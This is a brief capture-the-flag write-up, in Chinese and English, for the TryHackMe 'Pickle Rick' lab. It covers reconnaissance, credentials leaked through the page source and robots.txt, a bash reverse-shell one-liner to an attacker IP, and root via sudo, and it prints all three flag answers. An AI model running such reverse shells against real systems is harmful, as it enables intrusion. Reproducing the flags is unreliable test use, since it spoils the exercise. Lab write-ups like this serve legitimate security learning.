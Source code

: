 # Pickle Rick
> URL : https://tryhackme.com/room/picklerick
IP: 10.10.223.99

## Recon
- `nmap -A 10.10.223.99`
	- ![](https://i.imgur.com/9Qp6IZr.png)
	- 22 port 
	- 80 port
- 首頁原始碼
	- ![](https://i.imgur.com/3GxwBdt.png)
	- 提示 username : `R1ckRul3s`
- robots.txt
	- ![](https://i.imgur.com/rk9iz1l.png)
	- `Wubbalubbadubdub`
## Login
- ![](https://i.imgur.com/700dfoQ.png)
	- 使用 Username : `R1ckRul3s`
	- Password : `Wubbalubbadubdub`

## Webshell
- 進入後就是一個 webshell
	- 戳成 reverse shell
		- `bash -c 'bash -i >& /dev/tcp/10.13.21.55/7877 0>&1'`

- Flag1
	- ![](https://i.imgur.com/9jULhML.png)
	- 在 web 目錄
	- `mr. meeseek hair`

- Flag2
	- ![](https://i.imgur.com/5cgM6zS.png)
	- 在 rick 家目錄
	- `1 jerry tear`

- Flag3
	- ![](https://i.imgur.com/kKcUno1.png)
	- 發現可以直接 `sudo su`
	- 所以就進 root 取得最後一個 flag
	- `fleeb juice`



